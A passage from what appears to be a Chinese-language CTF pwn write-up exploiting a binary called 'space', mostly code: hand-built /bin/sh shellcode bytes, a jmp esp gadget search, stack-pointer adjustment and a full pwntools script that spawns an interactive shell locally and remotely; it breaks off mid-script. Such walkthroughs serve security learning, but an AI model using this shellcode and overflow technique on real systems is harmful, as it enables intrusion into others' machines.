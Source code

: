 在vuln函数里，寄存器eax包含变量local_12的地址，因此，我们可以在shellcode中包含“jmp eax”，以使其跳转到位于变量local_12开头的剩余shellcode
```
call_eax_asm = asm("call eax")	# 2字节

exploit = b"\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80" + p32(jmp_esp, endian="little") + b"\x31\xd2\x31\xc9" + call_eax_asm
```

我们的esp指向的是我们的b”\x31\xd2\x31\xc9”，而剩下的shellcode位于较低的地址，堆栈是从高到低执行的，剩下的push操作会在push发生时覆盖自己。我们需要减去esp的当前值，让它指向远离我们的shellcode位置

```
sub_esp_0x20_asm = asm("sub esp, 0x20")	 # 3字节

exploit = b"\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80" + p32(jmp_esp, endian="little") + b"\x31\xd2\x31\xc9" + sub_esp_0x20_asm + call_eax_asm
```
# PWN

完整的脚本
```
from pwn import *

context.update(arch="i386", os="linux")

binary = ELF("./space")

# 搜索jmp esp指令的地址
jmp_esp_asm = asm("jmp esp")
jmp_esp = next(binary.search(jmp_esp_asm))

# 回到vuln函数的缓冲区
call_eax_asm = asm("call eax")

# 改变栈指针，这样当shellcode压栈时，不会覆盖我们的shellcode
sub_esp_0x20_asm = asm("sub esp, 0x20")

exploit = b"\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80" + p32(jmp_esp, endian="little") + b"\x31\xd2\x31\xc9" + sub_esp_0x20_asm + call_eax_asm

r = binary.process() 
r.sendlineafter(">", exploit)
r.interactive()
```
执行脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/69eb0a10f86b472e8c0de734f65a47de.png)

设置远程地址，pwn掉服务器

![在这里插入图片描述](https://img-blog.csdnimg.cn/a898e39500864db0a80941aad2d221c3.png)

```
from pwn import *

context.update(arch="i386", os="linux")

binary = ELF("./space")


jmp_esp_asm = asm("jmp esp")
jmp_esp = next(binary.search(jmp_esp_asm))


call_eax_asm = asm("call eax")
```